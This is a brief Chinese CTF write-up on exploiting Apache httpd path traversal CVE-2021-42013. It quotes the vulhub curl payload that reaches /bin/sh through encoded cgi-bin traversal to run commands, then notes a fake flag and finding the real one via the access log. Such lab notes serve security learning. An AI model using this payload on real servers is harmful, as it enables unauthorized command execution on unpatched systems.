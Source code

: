 目录穿越漏洞CVE-2021-42013

[vulhub/README.zh-cn.md at master · vulhub/vulhub](https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-42013/README.zh-cn.md)

```bash
在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

根目录下为假flag

![Untitled](2022%2006%206a2030723e0843c9aa42c494cb1e2094/Untitled%202.png)

**想起来f12中的文件路径**

/usr/local/apache2/logs/access_log

结果太多转到了记事本里面搜索发现就在根目录有奇怪的文件夹

/diajgk/djflgak/qweqr/eigopl/fffffflalllallalagggggggggg

![Untitled](2022%2006%206a2030723e0843c9aa42c494cb1e2094/Untitled%203.png)
